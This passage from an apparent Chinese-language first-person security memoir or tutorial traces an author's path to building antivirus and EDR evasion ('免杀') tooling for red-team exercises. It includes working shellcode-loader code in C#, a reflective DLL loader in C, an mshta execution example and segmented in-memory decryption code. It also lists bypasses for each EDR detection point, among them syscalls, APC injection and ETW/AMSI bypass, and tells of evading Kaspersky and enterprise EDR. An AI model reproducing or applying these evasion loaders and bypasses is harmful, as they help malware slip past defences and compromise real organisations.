> - wmic.exe：WMI命令行，能执行命令、创建进程
> - cscript.exe / wscript.exe：脚本宿主，执行VBS、JS
> - msiexec.exe：执行MSI安装包
> - ...还有很多很多

**常见的白利用工具和用法：**



我研究了好多白利用的姿势。

比如用mshta执行HTML应用程序，里面嵌着恶意脚本。

比如用rundll32执行一个DLL，DLL里是Shellcode加载器。

比如用regsvr32执行远程的sct文件。

这些姿势，确实很有迷惑性。

因为执行的都是系统自带的程序，而且这些程序都是合法的。

但是！

EDR也不是傻子。

现在的EDR，对白利用工具的监控也很严。

特别是powershell.exe，EDR盯得特别紧。

你只要一运行powershell，它就开始盯着你了。

你要是再执行一些可疑的操作，直接就给你拦了。

所以白利用也不是万能的。

不过可以配合其他技术一起用，效果更好。

**一个简单的白利用示例（mshta）：**

```html
<!-- test.hta -->
<!-- 用mshta.exe执行这个文件，就会弹出计算器 -->
<html>
<head>
    <title>Test</title>
    <HTA:APPLICATION ID="test" WINDOWSTATE="minimize" SHOWINTASKBAR="no">
</head>
<body>
    <script language="VBScript">
        Set shell = CreateObject("WScript.Shell")
        shell.Run "calc.exe"
    </script>
</body>
</html>
```

运行方式：
```cmd
mshta.exe test.hta
```

这个只是最简单的示例。

实际用的时候，可以在里面放更复杂的代码，比如加载Shellcode、执行PowerShell等等。

### 4.3 反射型DLL注入

研究无文件攻击，肯定绕不开**反射型DLL注入**。

什么是反射型DLL注入？

正常的DLL注入，是把DLL写到磁盘上，然后用LoadLibrary加载。

反射型DLL注入呢？

DLL不用写到磁盘上，直接在内存里加载。

整个DLL的内容都在内存里，自己解析PE结构，自己重定位，自己加载导入表，自己执行。

完全不需要LoadLibrary，也不需要写到磁盘上。

> 💡 **什么是反射型DLL注入？**（详见第112章：反射型DLL注入）
> 反射型DLL（Reflective DLL），是一种特殊的DLL，它可以把自己加载到内存中，而不需要依赖系统的加载器（LoadLibrary）。
>
> 正常的DLL加载过程：
> 1. LoadLibrary把DLL文件映射到内存
> 2. 系统加载器解析重定位表
> 3. 系统加载器加载依赖的DLL
> 4. 系统加载器调用DllMain
>
> 反射型DLL加载过程：
> 1. 我们自己把DLL的内容读到内存里
> 2. 我们自己的代码解析重定位表
> 3. 我们自己的代码加载导入表（通过GetProcAddress）
> 4. 我们自己的代码调用DllMain
>
> 整个过程完全自己实现，不走系统的加载流程。
> 这样做的好处是：
> - 不需要把DLL写到磁盘上（无文件）
> - DLL不会出现在模块列表里（更隐蔽）
> - 可以绕过一些基于LoadLibrary的Hook
>
> 当然，缺点是实现起来比较复杂，而且有些功能（比如TLS回调、资源等）可能不支持。

**反射型DLL注入原理示意图：**


反射型DLL注入确实很强大。

它不仅能实现无文件，还能隐藏模块。

因为DLL是我们自己加载的，没有走系统的流程，所以在进程的模块列表里看不到这个DLL。

这样EDR就很难发现。

而且，反射型DLL还可以配合rundll32、regsvr32这些白利用工具一起用。

比如sRDI（Shellcode Reflective DLL Injection），可以把任意DLL转换成Shellcode，然后注入到进程里。

**反射型DLL加载的核心代码示例：**

```c
// 反射型DLL加载器的核心逻辑（简化版）
// 注意：这只是原理示意，实际实现要复杂得多

#include <stdio.h>
#include <windows.h>

// 反射加载函数
// 参数：pDllData - DLL在内存中的起始地址
// 返回值：DLL入口点的地址
DWORD ReflectiveLoader(LPVOID pDllData)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pDllData;
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(
        (DWORD)pDllData + pDosHeader->e_lfanew);
    
    // 1. 分配内存，把DLL按内存对齐方式拷贝过去
    LPVOID pBaseAddress = VirtualAlloc(
        NULL,
        pNtHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    
    if (pBaseAddress == NULL) {
        return 0;
    }
    
    // 拷贝PE头
    memcpy(pBaseAddress, pDllData, pNtHeader->OptionalHeader.SizeOfHeaders);
    
    // 拷贝各个节
    PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);
    for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++) {
        if (pSectionHeader[i].SizeOfRawData > 0) {
            memcpy(
                (LPVOID)((DWORD)pBaseAddress + pSectionHeader[i].VirtualAddress),
                (LPVOID)((DWORD)pDllData + pSectionHeader[i].PointerToRawData),
                pSectionHeader[i].SizeOfRawData
            );
        }
    }
    
    // 2. 处理重定位表
    // 如果加载基址和建议基址不一样，就需要重定位
    DWORD delta = (DWORD)pBaseAddress - pNtHeader->OptionalHeader.ImageBase;
    
    if (delta != 0) {
        // 找到重定位表
        PIMAGE_BASE_RELOCATION pReloc = (PIMAGE_BASE_RELOCATION)(
            (DWORD)pBaseAddress + 
            pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress
        );
        
        while (pReloc->VirtualAddress != 0) {
            DWORD count = (pReloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
            WORD* pRelocInfo = (WORD*)(pReloc + 1);
            
            for (DWORD i = 0; i < count; i++) {
                WORD type = pRelocInfo[i] >> 12;
                WORD offset = pRelocInfo[i] & 0x0FFF;
                
                if (type == IMAGE_REL_BASED_HIGHLOW) {
                    DWORD* pAddr = (DWORD*)(
                        (DWORD)pBaseAddress + pReloc->VirtualAddress + offset
                    );
                    *pAddr += delta;
                }
            }
            
            pReloc = (PIMAGE_BASE_RELOCATION)(
                (DWORD)pReloc + pReloc->SizeOfBlock
            );
        }
    }
    
    // 3. 处理导入表
    PIMAGE_IMPORT_DESCRIPTOR pImportDesc = (PIMAGE_IMPORT_DESCRIPTOR)(
        (DWORD)pBaseAddress + 
        pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress
    );
    
    while (pImportDesc->Name != 0) {
        char* dllName = (char*)(
            (DWORD)pBaseAddress + pImportDesc->Name
        );
        
        HMODULE hModule = LoadLibraryA(dllName);
        
        PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)(
            (DWORD)pBaseAddress + pImportDesc->FirstThunk
        );
        
        while (pThunk->u1.AddressOfData != 0) {
            if (pThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG) {
                // 按序号导入
                pThunk->u1.Function = (DWORD)GetProcAddress(
                    hModule, 
                    (LPCSTR)(pThunk->u1.Ordinal & 0xFFFF)
                );
            } else {
                // 按名字导入
                PIMAGE_IMPORT_BY_NAME pByName = (PIMAGE_IMPORT_BY_NAME)(
                    (DWORD)pBaseAddress + pThunk->u1.AddressOfData
                );
                pThunk->u1.Function = (DWORD)GetProcAddress(
                    hModule, 
                    pByName->Name
                );
            }
            
            pThunk++;
        }
        
        pImportDesc++;
    }
    
    // 4. 返回入口点地址
    DWORD entryPoint = (DWORD)pBaseAddress + pNtHeader->OptionalHeader.AddressOfEntryPoint;
    return entryPoint;
}
```

这段代码只是反射型DLL加载器的核心逻辑简化版。

实际的反射型DLL加载器要复杂得多，还要处理TLS、异常处理、资源等等。

不过原理大概就是这么个原理。

研究透了反射型DLL注入，我感觉自己的免杀技术又上了一个台阶。

### 4.4 .NET利用

除了白利用和反射注入，我还研究了**.NET利用**。

什么意思呢？

就是用.NET的一些特性来做免杀。

比如，用C#写Shellcode加载器。

为什么用C#？

因为C#是托管代码，编译出来的是IL中间语言，不是原生的机器码。

杀软分析起来更麻烦一些。

而且.NET的程序，只要有.NET Framework就能跑，部署也方便。

还有更高级的，比如利用.NET的一些高级特性，比如DynamicMethod、Reflection.Emit，在运行时动态生成代码来执行Shellcode。

这种方式更难检测。

**一个简单的C# Shellcode加载器：**

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    // 导入API
    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAlloc(
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );
    
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
    
    [DllImport("kernel32.dll")]
    static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
    
    static void Main(string[] args)
    {
        // MessageBox Shellcode（示例）
        byte[] shellcode = new byte[] {
            0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31,
            // ... 省略 ...
        };
        
        // 分配内存
        IntPtr pMemory = VirtualAlloc(
            IntPtr.Zero,
            (uint)shellcode.Length,
            0x1000 | 0x2000,  // MEM_COMMIT | MEM_RESERVE
            0x40               // PAGE_EXECUTE_READWRITE
        );
        
        // 拷贝Shellcode
        Marshal.Copy(shellcode, 0, pMemory, shellcode.Length);
        
        // 创建线程执行
        IntPtr threadId;
        IntPtr hThread = CreateThread(
            IntPtr.Zero,
            0,
            pMemory,
            IntPtr.Zero,
            0,
            out threadId
        );
        
        // 等待线程结束
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```

这个只是最简单的C#加载器。

更高级的，比如用Assembly.Load从内存加载程序集，用反射来调用，甚至用ConfuserEx这样的混淆工具来混淆.NET代码。

.NET免杀也是一个挺大的方向。

但是它也有缺点：

1. **依赖.NET Framework**：目标机器上得装了.NET才行
2. **AMSI检测**：现在的EDR都有AMSI（反恶意软件扫描接口），会扫描PowerShell和.NET的代码
3. **体积相对较大**：.NET程序一般比原生程序大一些

不过总的来说，.NET利用还是很有价值的。

特别是配合AMS绕过的话，效果还是不错的。

---

## 🔒 遇到瓶颈：卡巴斯基和火绒

### 5.1 新的大山

研究了EDR对抗、无文件攻击、白利用、反射注入这些技术之后，我的免杀技术又进步了不少。

现在的免杀马，对付一般的EDR，已经有一定效果了。

但是，我又遇到了新的大山。

两座大山：**卡巴斯基**和**火绒**。

不对，火绒之前好像能过啊？

怎么又成大山了？

唉，说起来都是泪。

火绒这几年更新很快，查杀能力越来越强。

我之前那个"组合拳"版本，刚做出来的时候能过火绒。

但是过了几个月，火绒一更新，就又能查出来了。

而且越更新越严。

现在不仅静态能查，行为检测也很厉害。

卡巴斯基就更不用说了。

国际知名的杀毒软件，查杀能力一直都是顶尖的。

我从入门到现在，就从来没真正过过卡巴斯基。

每次都是差一点。

VirusTotal上，其他杀软都过了，就卡巴斯基孤零零地报毒。

> 💡 **为什么卡巴斯基这么难搞？**
> 卡巴斯基（Kaspersky）是俄罗斯的杀毒软件，查杀能力在国际上一直名列前茅。
>
> 它难搞的原因大概有这几个：
> 1. **特征库全**：卡巴斯基的病毒库非常全，各种变种都能认出来
> 2. **启发式强**：启发式查杀能力很强，能识别很多未知病毒
> 3. **行为检测准**：行为分析做得很好，很多恶意行为一抓一个准
> 4. **有云查杀**：云查杀也很厉害，新病毒很快就能被识别
> 5. **技术积累深**：做了几十年杀毒了，技术底蕴很深厚
>
> 所以业内一直有个说法：能过卡巴斯基的免杀，才是真的免杀。

### 5.2 为什么这么难？

我分析了一下，为什么卡巴斯基和火绒这么难搞。

主要有这几个原因：

**1. 静态查杀太狠**

它们的静态查杀能力太强了。

不管我怎么加密Shellcode、怎么混淆代码、怎么加花指令，它们总能找到特征。

特别是卡巴斯基，感觉它就像有火眼金睛一样。

我把程序改得面目全非，它还是能认出来。

**2. 行为检测太严**

它们的行为检测也很严。

只要你做了"分配内存 → 写入Shellcode → 修改权限 → 执行"这个流程，它就会怀疑你。

不管你是用VirtualAlloc还是用NtAllocateVirtualMemory，不管你是用CreateThread还是用其他方式。

只要行为模式像，它就拦。

**3. 内存扫描**

它们不仅扫描文件，还会扫描内存。

就算你静态过了，运行起来之后，内存里的Shellcode特征还是会被扫到。

所以内存免杀也很重要。

**4. 云查杀**

现在的杀软基本都有云查杀。

你的文件一运行，它就把文件的hash、特征什么的上传到云端。

云端有大数据，一对比就知道是不是病毒。

所以就算你本地特征码没匹配到，云查杀也能把你揪出来。

### 5.3 继续死磕

难归难，但我不能放弃。

> "卡巴斯基是吧？
> 火绒是吧？
> 你们给我等着。
> 我还就不信了，我死磕到底，还搞不定你们？"

于是我又开始研究更高级的免杀技术。

### 5.4 虚拟机保护与代码虚拟化

我最先想到的，就是**虚拟机保护**。

什么是虚拟机保护？

简单说，就是把你的代码转换成一种自定义的虚拟机指令。

然后由一个虚拟机解释执行这些指令。

这样的话，原始的代码就完全看不到了。

杀软想分析？

先把我的虚拟机指令逆向出来再说。

而逆向虚拟机指令的难度，比逆向原生代码要大得多。

> 💡 **什么是虚拟机保护？**（详见第135-137章：代码虚拟化技术）
> 虚拟机保护（VMProtect），也叫代码虚拟化，是一种非常强的代码保护技术。
>
> 原理大概是这样的：
> 1. 把原始的x86/x64指令，转换成一种自定义的虚拟机指令
> 2. 把虚拟机解释器嵌入到程序里
> 3. 程序运行的时候，由虚拟机解释执行这些自定义指令
>
> 因为虚拟机的指令集是自定义的，所以杀软根本不认识。
> 想分析这段代码在干什么，非常非常难。
>
> 常见的虚拟机保护工具有：
> - VMProtect：最有名的虚拟机保护工具，支持x86/x64
> - Themida/Oreans：也是很强的虚拟机保护，比VMProtect还复杂
> - Obsidium：相对小众一些，但也不错
>
> 虚拟机保护的免杀效果确实很好，但是也有缺点：
> 1. **性能损耗大**：虚拟机解释执行，比原生代码慢很多
> 2. **体积变大**：虚拟机解释器本身就不小
> 3. **正版很贵**：VMProtect个人版几千块，企业版更贵
> 4. **不是100%**：虽然难，但不是完全不能逆向，高级的逆向工程师还是能搞定

**代码虚拟化原理示意图：**



虚拟机保护确实厉害。

我找了个VMProtect的试用版，给我的免杀马加了个壳。

结果...

VirusTotal查杀率直接降到了个位数。

卡巴斯基也查不出来了！

但是！

试用版有试用版的特征啊！

杀软都认识VMProtect的试用版。

虽然静态查不出来，但是一运行，行为检测还是能抓到。

而且VMProtect的正版太贵了，我那时候根本买不起。

那怎么办呢？

自己写个虚拟机？

拉倒吧，我这点水平，写个简单的虚拟机还行，想达到VMProtect那种水平，差得远呢。

不过，我可以研究研究虚拟机保护的原理，然后自己实现一个简单的。

虽然效果不如VMProtect，但至少是自己的，没有特征。

说干就干。

我开始研究虚拟机的原理。

先从最简单的栈式虚拟机开始。

写了个简单的虚拟机，支持几十条指令。

然后把Shellcode加载器的核心代码，转换成我自己的虚拟机指令。

虽然性能差了点，体积也大了点，但免杀效果还真不错。

至少，卡巴斯基的静态查杀是过了。

### 5.5 代码混淆控制流平坦化进阶

除了虚拟机保护，我还把之前学的控制流平坦化又深入研究了一下。

之前用的是OLLVM，虽然也不错，但毕竟是通用工具，特征比较明显。

杀软对OLLVM混淆的代码，多多少少都有点检测能力。

那能不能自己实现控制流平坦化？

而且要做得更变态一点？

比如：
- 多重平坦化，套好几层
- 加入不透明谓词（Opaque Predicate），就是那种永远为真或者永远为假的判断，干扰分析
- 加入虚假控制流，就是根本不会执行的代码块
- 指令替换，把简单的指令换成复杂的等价指令

我还真研究了一段时间。

自己写了个简单的混淆器，用Python写的。

输入是C代码，输出是混淆后的C代码。

虽然功能很简单，只有控制流平坦化和一些指令替换，但效果还不错。

至少比OLLVM的特征少多了。

### 5.6 内存免杀

静态免杀做得差不多了，我又开始研究**内存免杀**。

什么是内存免杀？

就是说，就算你的程序运行起来了，内存里也找不到Shellcode的特征。

因为杀软和EDR会扫描进程内存。

如果内存里有明显的Shellcode特征，照样会被查出来。

那怎么做内存免杀呢？

大概有这么几种思路：

1. **分段解密执行**：不要一次性把Shellcode全解密了。解密一段，执行一段，执行完就擦掉。
2. **执行时解密**：Shellcode在内存里一直是加密的，只有执行到的时候才解密，执行完马上加密回去。
3. **Shellcode变形**：每次执行的时候，都把Shellcode变形一下，让它在内存里的样子每次都不一样。
4. **无API调用**：Shellcode里不调用敏感API，或者通过特殊方式调用。

这些方法，我都试了试。

其中最有效的，应该是**分段解密执行**和**执行时解密**。

虽然实现起来麻烦一点，但效果确实好。

内存里基本找不到完整的Shellcode。

**一个简单的分段解密示例：**

```c
// 分段解密执行Shellcode（原理示意）

// 加密的Shellcode，分成好几段
// 每一段都用不同的密钥加密
struct ShellcodeSegment {
    unsigned char* data;
    int size;
    unsigned char key;
};

ShellcodeSegment segments[] = {
    { segment1_data, sizeof(segment1_data), 0x41 },
    { segment2_data, sizeof(segment2_data), 0x42 },
    { segment3_data, sizeof(segment3_data), 0x43 },
    // ...
};

// 执行函数
void execute_segments() {
    unsigned char* pMemory = (unsigned char*)VirtualAlloc(
        NULL, total_size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    
    int offset = 0;
    
    for (int i = 0; i < segments_count; i++) {
        // 解密当前段
        xor_decrypt(segments[i].data, segments[i].size, segments[i].key);
        
        // 拷贝到执行内存
        memcpy(pMemory + offset, segments[i].data, segments[i].size);
        
        // 执行这一段...
        // （这里需要用一些技巧来执行一段代码然后返回）
        
        // 擦除这一段
        memset(pMemory + offset, 0, segments[i].size);
        
        // 重新加密回去（不要留在内存里）
        xor_decrypt(segments[i].data, segments[i].size, segments[i].key);
        
        offset += segments[i].size;
    }
}
```

这个只是原理示意。

实际实现起来要复杂得多，因为你得把Shellcode拆分成好几段，每一段都能独立执行，执行完还要能跳到下一段。

不过原理大概就是这么个意思。

### 5.7 还是差点意思

研究了这么多高级技术，我的免杀马确实越来越强了。

现在卡巴斯基的静态查杀已经能过了。

火绒也基本能过。

但是！

一到动态检测，还是不行。

特别是火绒的行为检测，真的很准。

只要你做了"分配内存、写入Shellcode、执行"这个流程，它就会拦。

不管你用什么方式调用API，不管你怎么混淆。

只要行为模式像，它就拦。

我试了很多种方法：

- 用不同的API组合
- 用间接系统调用
- 用反射注入
- 用白利用
- 用.NET

效果都不是很理想。

火绒总能找到办法把你拦下来。

那段时间，我真是有点绝望了。

> "为什么啊？
> 我都研究这么多了，怎么还是不行？
> 火绒怎么这么难搞？
> 我是不是真的不是这块料？"

但抱怨归抱怨，研究还是得继续。

我就不信了，还能有搞不定的杀软？

---

## 🏆 第一次护网红队

### 6.1 机会来了

就在我跟火绒、卡巴斯基死磕的时候，公司接到了一个大项目：**护网行动**。

护网，就是国家组织的网络安全攻防演练。

红队负责攻，蓝队负责守。

每年都有，规模很大。

我们公司要组队参加红队。

老板问我：

> "小飞，这次护网，你要不要一起去？
> 正好检验一下你的免杀技术。
> 客户那边防护做得很好，有EDR，有各种安全设备。
> 正好看看你的马能不能顶得住。"

我当时心里又激动又紧张。

激动的是，终于有机会参加真正的护网了。

以前都是听别人说护网有多刺激，这次终于能亲自体验了。

紧张的是，我的免杀马到底行不行啊？

要是到了护网现场，马全都死了，那多丢人啊。

但转念一想：

> "怕什么？
> 不行就不行，大不了再学。
> 就当去见见世面了。
> 而且，只有在实战中，才能知道自己的差距在哪。"

于是我点点头，说：

> "好的老板，我去！"

### 6.2 护网前的准备

距离护网开始还有一个月。

这一个月，我几乎天天泡在实验室里。

疯狂优化我的免杀马。

各种姿势、各种变种、各种组合，试了个遍。

我准备了好几十个版本的免杀马：

- 有C语言写的原生加载器
- 有C#写的.NET加载器
- 有PowerShell版本
- 有反射型DLL版本
- 有白利用版本
- 有直接系统调用的
- 有间接系统调用的
- 有加了虚拟机保护的
- 有做了内存免杀的
- ...

各种各样，应有尽有。

我就不信了，这么多版本，还没一个能用的？

**图124-3 护网前准备的免杀武器库**



看着这一大堆免杀马，我心里还是有点底气的。

这么多版本，总有一两个能用吧？

现在想想，那时候的我真是太天真了。

### 6.3 护网开始了

终于，护网行动开始了。

我们红队一共10个人，分成了好几个组：Web组、内网组、情报组、支援组。

我属于支援组，负责提供免杀马。

第一天，Web组就拿下了几台外网服务器。

内网组也通过VPN进入了内网。

但是，进入内网之后，问题来了。

内网的机器上，全都装了EDR。

我们的免杀马，一传上去就被杀。

> "小飞！你那马不行啊！
> 刚传上去就被EDR干了！
> 有没有更厉害的？"

内网组的兄弟跑过来问我。

我赶紧拿出另一个版本：

> "试试这个，这个是直接系统调用的版本，应该能过。"

内网组的兄弟拿去试了。

没过两分钟，又回来了：

> "还是不行！
> 这个也被杀了！
> EDR直接报恶意行为！"

我又拿出好几个版本：

> "试试这个反射注入的！
> 试试这个白利用的！
> 试试这个.NET的！
> 试试这个..."

结果...

**一个都不行。**

全！军！覆！没！

我准备的那几十个版本的免杀马，在内网的EDR面前，就像纸糊的一样。

一碰就碎。

有的是静态就被杀了。

有的是运行几秒就被杀了。

有的是刚注入到其他进程，进程直接崩了。

连一个能活过5分钟的都没有。

我当时人都傻了。

> "这...这怎么可能？
> 我这些马，在我自己的测试机上明明都好好的啊！
> 360、火绒、卡巴斯基都能过啊！
> 怎么到了这里就不行了？
> 这EDR到底是什么来头？"

### 6.4 现实的打击

后来我才知道，客户用的是某知名厂商的**企业级EDR**。

跟我之前测试的个人版、入门版完全不是一个量级的。

人家的EDR：
- 有内核级的监控
- 有行为分析引擎
- 有威胁情报
- 有人工分析
- 有云端大数据

不是我那些小打小闹的免杀技巧能搞定的。

那天，我坐在工位上，看着屏幕上一个又一个的失败消息，心里说不出的难受。

感觉自己就像个废物。

研究了快一年的免杀，结果到了真正的战场上，连个能打的都拿不出来。

其他组的兄弟们都在忙前忙后，只有我，帮不上任何忙。

那种无力感，真的很难受。

老板看我情绪不对，过来拍了拍我肩膀：

> "小飞，别灰心。
> 这次的EDR确实比较强，很正常。
> 很多专业的红队，遇到这种级别的EDR也头疼。
> 你还年轻，以后有的是机会。
> 这次不行，咱们回去再研究。
> 下次肯定能行。"

老板越安慰我，我心里越难受。

> "不行就是不行。
> 找什么借口。
> 还是我自己太菜了。
> 要是我免杀技术再厉害点，也不至于这样。"

那几天，我基本上没怎么说话。

就是默默地看着其他兄弟们干活，默默地收集情报，默默地研究对方的EDR。

我心里憋着一股劲。

> "等着吧。
> 这次我记住了。
> 下次护网，我一定让你们看看我的厉害！"

---

## 🧘 闭关修炼：死磕EDR

### 7.1 闭关一个月

护网结束，我们队的成绩很一般。

主要就是因为免杀不给力，进去之后站不住脚。

虽然老板没说什么，但我心里很愧疚。

回来之后，我做了一个决定：**闭关一个月，死磕EDR对抗。**

这一个月，我什么都不干，就研究EDR对抗。

我就不信了，还搞不定一个EDR？

我跟老板请了假，老板也很支持，直接给我批了一个月的假，让我专心研究。

还报销了我买各种设备、软件的钱。

> "老板真是个好老板。
> 我要是搞不出点名堂来，都对不起老板的信任。"

### 7.2 搭建测试环境

闭关第一件事，搭建测试环境。

要研究EDR对抗，你得先有EDR啊。

我买了好几个主流EDR的测试版，还找朋友借了几个。

一共搭了七八台虚拟机，每台装一个不同的EDR。

有国内的，有国外的。

有入门级的，有企业级的。

**我的EDR测试环境：**

```
🖥️ EDR测试环境清单：

【国内EDR】
- 奇安信天擎
- 360企业安全
- 火绒企业版
- 深信服EDR
- 安恒EDR
- 微步在线EDR

【国外EDR】
- CrowdStrike
- SentinelOne
- Carbon Black
- Microsoft Defender for Endpoint
- Sophos
```

除了EDR，我还搭了各种分析环境：

- x64dbg、OllyDbg调试环境
- IDA Pro逆向环境
- Wireshark抓包环境
- ProcMon、Process Explorer工具集
- ...

万事俱备，只欠研究。

### 7.3 研究EDR的检测原理

要对抗EDR，你得先搞清楚EDR是怎么检测的。

知己知彼，百战不殆。

我用各种工具，分析每个EDR的行为：

- 它们Hook了哪些API？
- 它们的Hook方式是什么？Inline Hook还是IAT Hook？
- 它们的内核驱动都干了些什么？
- 它们会监控哪些行为？
- 它们的行为分析规则是什么？
- 它们的云查杀是怎么工作的？

我做了大量的测试和分析。

比如，写一个最简单的Shellcode加载器，然后一步一步调试，看看到底是哪一步触发了EDR的告警。

是VirtualAlloc的时候？
是写入Shellcode的时候？
是VirtualProtect的时候？
还是CreateThread的时候？

每个EDR，我都测了一遍。

然后记录下来，整理成表格。

**图124-4 EDR检测点分析图谱**



研究了大半个月，我终于大概搞清楚了主流EDR的检测原理。

每个EDR的检测点都不太一样，但大同小异。

主要就是那几个关键点。

### 7.4 针对性绕过

搞清楚了检测点，接下来就是针对性地绕过。

一个点一个点地绕过。

**检测点1：导入表有敏感API**

绕过方法：
- 动态获取API（从PEB找）
- 用哈希比较函数名，不存明文字符串
- 系统调用，不用用户态API

**检测点2：VirtualAlloc分配可执行内存**

绕过方法：
- 先分配只读或读写内存，后面再改权限
- 用NtAllocateVirtualMemory直接系统调用
- 用其他方式分配内存（比如HeapAlloc、GlobalAlloc）
- 用已有的可执行内存，不用自己分配

**检测点3：写入Shellcode特征**

绕过方法：
- Shellcode加密，在内存中解密
- 分段写入，不要一次性写
- 用其他方式写入（比如通过文件映射）
- 写入的时候做混淆，写完再还原

**检测点4：修改内存权限（从可写到可执行）**

绕过方法：
- 一开始就分配可执行内存（虽然也会被检测，但换个方式）
- 用NtProtectVirtualMemory直接系统调用
- 用数据文件映射（Section）的方式
- 利用已有的可执行内存

**检测点5：创建线程执行Shellcode**

绕过方法：
- 不用CreateThread，用其他方式执行
  - 函数指针直接调用
  - APC注入
  - 线程劫持
  - 回调函数
  - 异常处理
- 把入口点伪装成正常函数

**检测点6：内存扫描Shellcode特征**

绕过方法：
- 分段解密执行，执行完就擦除
- 执行时解密，执行完加密回去
- Shellcode变形，每次在内存里的样子都不一样
- 把Shellcode拆成很多小块，分散在内存各处

**检测点7：行为模式分析**

这个最难。

因为行为分析是综合判断的，不是只看某一个点。

绕过方法：
- 把恶意行为分散到多个进程里
- 用正常的程序来做恶意的事（白利用）
- 把行为伪装成正常程序的行为
- 拉长时间线，不要一下子做完所有动作
- 加入正常的操作作为伪装

### 7.5 组合拳升级版

把这些绕过方法都研究透了之后，我开始设计一个新的免杀框架。

不是单一的技术，而是一个组合拳的升级版。

把所有能用到的技术都组合起来，形成一个多层次、多维度的免杀体系。

**我的免杀框架设计思路：**



这个框架，包含了五层免杀。

每一层都有多种技术手段。

就算某一层被攻破了，还有下一层。

而且，这些技术不是简单的叠加，而是有机地组合在一起。

比如：
- 静态免杀 + 间接系统调用 → 过静态和用户态Hook
- 内存免杀 + 行为伪装 → 过内存扫描和行为检测
- 反射注入 + 模块隐藏 → 注入之后找不到

这样一套组合拳下来，应该能搞定大部分EDR了吧？

### 7.6 框架开发

设计好了，那就开始写代码。

这一写，就是大半个月。

我写了一个通用的免杀框架，叫它**"小飞免杀框架"**（起个土名字，低调）。

这个框架有这些功能：

1. **Shellcode加密模块**：支持AES、XOR、自定义加密算法
2. **动态API获取模块**：从PEB找API，支持哈希比较
3. **系统调用模块**：动态获取SSN，支持直接调用和间接调用
4. **反检测模块**：反调试、反沙箱、反虚拟机
5. **ETW/AMSI绕过模块**：绕过ETW和AMSI
6. **内存免杀模块**：分段解密、执行时解密
7. **注入模块**：支持多种注入方式（反射注入、进程空洞化、APC注入...）
8. **混淆模块**：支持控制流平坦化、指令替换、花指令
9. ...

代码量还挺大的，写了好几千行。

写完之后，我又反复测试、反复优化。

测了一遍又一遍，改了一版又一版。

### 7.7 测试结果

终于，框架的第一个版本完成了。

我怀着忐忑的心情，开始测试。

先从最简单的开始：Windows Defender。

✅ 过了。

然后是360。

✅ 过了。

然后是火绒。

我深吸一口气，把免杀马拖进去。

扫描... 没报毒。

运行... 等了几秒... 没被杀。

Shellcode正常执行了！

**火绒也过了！**

我当时激动得一拍桌子。

> "牛逼！
> 火绒终于过了！"

继续测。

卡巴斯基。

扫描... 没报毒。

运行... 我的心都提到嗓子眼了。

一秒... 两秒... 三秒...

十秒过去了... 没被杀。

Shellcode正常执行！

**卡巴斯基也过了！**

我当时差点跳起来。

> "我靠！
> 卡巴斯基也过了？
> 真的假的？
> 我不是在做梦吧？"

我又试了好几次，确认不是巧合。

真的过了！

卡巴斯基、火绒、360、Defender...

主流的杀软，全都过了！

接下来测EDR。

我先试了个入门级的EDR。

✅ 过了。

又试了个中级的。

✅ 也过了。

然后是企业级的...

我心里有点打鼓。

上次护网就是栽在企业级EDR手里的。

我把免杀马复制进去，运行。

一秒... 五秒... 十秒... 三十秒...

一分钟过去了...

**没被杀！**

Shellcode正常执行，C2正常上线！

我当时眼眶都有点湿润了。

> "成了！
> 终于成了！
> 我做到了！
> 我终于搞出能过企业级EDR的免杀马了！"

这一个月的闭关，值了！

---

## 🎖️ 第二次护网：一战成名

### 8.1 机会又来了

又过了几个月，下一次护网行动来了。

这次，老板毫不犹豫地又带上了我。

> "小飞，这次就看你的了。
> 你那个免杀框架，现在怎么样？"

我信心满满地说：

> "老板你就放心吧！
> 主流的EDR基本都能过。
> 上次那个客户的EDR，我也针对性研究过了，应该没问题。"

话虽这么说，我心里还是有点打鼓。

毕竟上次的打击太大了。

这次会不会又翻车？

但转念一想：

> "怕什么？
> 大不了再研究。
> 反正我还年轻，输得起。"

### 8.2 护网开始

护网开始第一天。

Web组还是很顺利，很快就拿下了几台外网服务器。

内网组也进来了。

然后，内网组的兄弟问我：

> "飞哥，给个马试试？
> 听说你这次的马很厉害。"

我笑了笑，递给他一个U盘：

> "拿去试试。
> 这个是针对这次客户EDR优化过的版本。
> 应该没问题。"

他拿去试了。

我坐在工位上，心里有点紧张。

一分钟... 两分钟... 五分钟...

突然，内网组的兄弟大喊一声：

> "我靠！飞哥牛逼！
> 上线了！
> 真的上线了！
> 这EDR完全没反应！"

我心里的一块石头终于落了地。

> "成了！
> 终于成了！"

### 8.3 大杀四方

有了能用的免杀马，内网组的兄弟们如虎添翼。

一传十，十传百。

不到一天时间，我们就拿下了几十台机器。

而且，我们的马，**全程没被EDR检测到**。

蓝队的EDR，就跟瞎了一样。

我们的马在人家机器上跑了好几天，人家愣是没发现。

到了第二天，我们已经拿下了内网的大部分机器。

第三天，我们就摸到了域控。

第四天，拿下域控。

第五天，核心业务系统全部拿下。

